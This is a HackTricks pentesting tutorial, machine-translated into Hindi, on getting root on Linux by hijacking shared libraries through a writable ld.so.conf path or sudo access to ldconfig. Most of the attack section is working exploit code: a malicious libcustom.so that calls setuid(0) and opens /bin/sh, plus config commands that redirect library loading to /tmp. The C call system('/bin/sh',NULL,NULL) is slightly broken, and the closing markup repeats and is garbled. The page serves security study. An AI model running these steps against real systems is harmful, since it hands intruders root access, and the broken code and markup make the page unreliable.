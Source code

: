 # ld.so privesc exploit example

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}

## वातावरण तैयार करें

अगले अनुभाग में आप उन फ़ाइलों का कोड पा सकते हैं जिनका हम वातावरण तैयार करने के लिए उपयोग करने जा रहे हैं

{% tabs %}
{% tab title="sharedvuln.c" %}
```c
#include <stdio.h>
#include "libcustom.h"

int main(){
printf("Welcome to my amazing application!\n");
vuln_func();
return 0;
}
```
{% endtab %}

{% tab title="libcustom.h" %}
```c
#include <stdio.h>

void vuln_func();
```
{% endtab %}

{% tab title="libcustom.c" %}
```c
#include <stdio.h>

void vuln_func()
{
puts("Hi");
}
```
{% endtab %}
{% endtabs %}

1. **अपने मशीन में उसी फ़ोल्डर में** उन फ़ाइलों को **बनाएँ**
2. **लाइब्रेरी को** संकलित करें: `gcc -shared -o libcustom.so -fPIC libcustom.c`
3. `libcustom.so` को `/usr/lib` में **कॉपी करें**: `sudo cp libcustom.so /usr/lib` (रूट प्रिविलेज)
4. **कार्यकारी फ़ाइल को** संकलित करें: `gcc sharedvuln.c -o sharedvuln -lcustom`

### वातावरण की जाँच करें

जाँच करें कि _libcustom.so_ _/usr/lib_ से **लोड** हो रहा है और आप बाइनरी को **निष्पादित** कर सकते हैं।
```
$ ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffc9a1f7000)
libcustom.so => /usr/lib/libcustom.so (0x00007fb27ff4d000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb27fb83000)
/lib64/ld-linux-x86-64.so.2 (0x00007fb28014f000)

$ ./sharedvuln
Welcome to my amazing application!
Hi
```
## Exploit

इस परिदृश्य में हम यह मानने जा रहे हैं कि **किसी ने _/etc/ld.so.conf/_ के अंदर एक कमजोर प्रविष्टि बनाई है**:
```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```
दुर्बल फ़ोल्डर _/home/ubuntu/lib_ है (जहाँ हमारे पास लिखने की अनुमति है)।\
**डाउनलोड और संकलित करें** निम्नलिखित कोड को उस पथ के अंदर:
```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
setuid(0);
setgid(0);
printf("I'm the bad library\n");
system("/bin/sh",NULL,NULL);
}
```
अब जब हमने **गलत कॉन्फ़िगर की गई** पथ के अंदर **दुष्ट libcustom पुस्तकालय** बनाया है, हमें **रीबूट** का इंतज़ार करना होगा या रूट उपयोगकर्ता को **`ldconfig`** निष्पादित करने के लिए कहना होगा (_यदि आप इस बाइनरी को **sudo** के रूप में निष्पादित कर सकते हैं या इसमें **suid बिट** है, तो आप इसे स्वयं निष्पादित कर सकेंगे_)।

एक बार जब यह हो जाए, तो **फिर से जांचें** कि `sharevuln` निष्पादन योग्य `libcustom.so` पुस्तकालय को कहाँ से लोड कर रहा है:
```c
$ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffeee766000)
libcustom.so => /home/ubuntu/lib/libcustom.so (0x00007f3f27c1a000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3f27850000)
/lib64/ld-linux-x86-64.so.2 (0x00007f3f27e1c000)
```
जैसा कि आप देख सकते हैं, यह **`/home/ubuntu/lib` से लोड हो रहा है** और यदि कोई उपयोगकर्ता इसे निष्पादित करता है, तो एक शेल निष्पादित होगा:
```c
$ ./sharedvuln
Welcome to my amazing application!
I'm the bad library
$ whoami
ubuntu
```
{% hint style="info" %}
ध्यान दें कि इस उदाहरण में हमने विशेषाधिकारों को बढ़ाया नहीं है, लेकिन निष्पादित किए गए आदेशों को संशोधित करके और **जड़ या अन्य विशेषाधिकार प्राप्त उपयोगकर्ता के कमजोर बाइनरी को निष्पादित करने की प्रतीक्षा करके** हम विशेषाधिकार बढ़ा सकेंगे।
{% endhint %}

### अन्य गलत कॉन्फ़िगरेशन - समान कमजोर

पिछले उदाहरण में हमने एक गलत कॉन्फ़िगरेशन का अनुकरण किया जहां एक व्यवस्थापक ने **`/etc/ld.so.conf.d/` के अंदर एक कॉन्फ़िगरेशन फ़ाइल के अंदर एक गैर-विशेषाधिकार प्राप्त फ़ोल्डर सेट किया**।\
लेकिन अन्य गलत कॉन्फ़िगरेशन भी हैं जो समान कमजोरियों का कारण बन सकते हैं, यदि आपके पास **`/etc/ld.so.conf.d` के अंदर कुछ **कॉन्फ़िग फ़ाइल** में लिखने की अनुमति है, `/etc/ld.so.conf.d` फ़ोल्डर में या `/etc/ld.so.conf` फ़ाइल में, तो आप समान कमजोरी को कॉन्फ़िगर कर सकते हैं और इसका लाभ उठा सकते हैं।

## शोषण 2

**मान लीजिए कि आपके पास `ldconfig` पर sudo विशेषाधिकार हैं**।\
आप `ldconfig` को **कॉन्फ़ फ़ाइलों को कहाँ से लोड करना है** यह बता सकते हैं, इसलिए हम इसका लाभ उठाकर `ldconfig` को मनमाने फ़ोल्डर लोड करने के लिए कह सकते हैं।\
तो, चलिए "/tmp" को लोड करने के लिए आवश्यक फ़ाइलें और फ़ोल्डर बनाते हैं:
```bash
cd /tmp
echo "include /tmp/conf/*" > fake.ld.so.conf
echo "/tmp" > conf/evil.conf
```
अब, जैसा कि **पिछले एक्सप्लॉइट** में संकेत दिया गया है, **`/tmp` के अंदर दुर्भावनापूर्ण लाइब्रेरी बनाएं**।\
और अंत में, चलिए पथ लोड करते हैं और जांचते हैं कि बाइनरी लाइब्रेरी को कहाँ से लोड कर रही है:
```bash
ldconfig -f fake.ld.so.conf

ldd sharedvuln
linux-vdso.so.1 =>  (0x00007fffa2dde000)
libcustom.so => /tmp/libcustom.so (0x00007fcb07756000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcb0738c000)
/lib64/ld-linux-x86-64.so.2 (0x00007fcb07958000)
```
**जैसा कि आप देख सकते हैं, `ldconfig` पर sudo विशेषाधिकार होने पर आप उसी कमजोरियों का लाभ उठा सकते हैं।**

{% hint style="info" %}
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
